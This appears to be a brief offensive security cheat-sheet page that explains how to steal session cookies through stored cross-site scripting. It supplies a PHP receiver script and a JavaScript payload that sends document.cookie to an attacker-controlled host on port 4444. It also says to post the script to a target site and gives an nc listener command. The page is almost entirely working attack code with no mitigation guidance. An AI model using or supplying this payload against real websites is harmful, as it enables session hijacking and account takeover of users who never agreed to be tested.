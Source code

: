 ```yaml
---
title: Cookie Hijacking Examples
desc: Steal user's Cookie values.
tags: [CookieHijacking, Web, XSS]
alts: [XSSCheatSheet]
website:
render_with_liquid: false
---
```


## PHP Cookie Grabbing with XSS

### 1. Create the payload for grabbing the Cookie when the other user will access your machine.

```php
// steal_cookie.php
<?php echo $_GET['cookie']; ?>
```

### 2. Create the script to force users to access your machine with the cookie.

```javascript
<script>document.location = 'http://<attacker-ip>:4444/steal_cookie.php?cookie='+document.cookie</script>
```

### 3. POST request with this script in the target website.

### 4. Listen on the port in your machine and wait for the other users access the target web page.

```sh
nc -lvnp 4444
```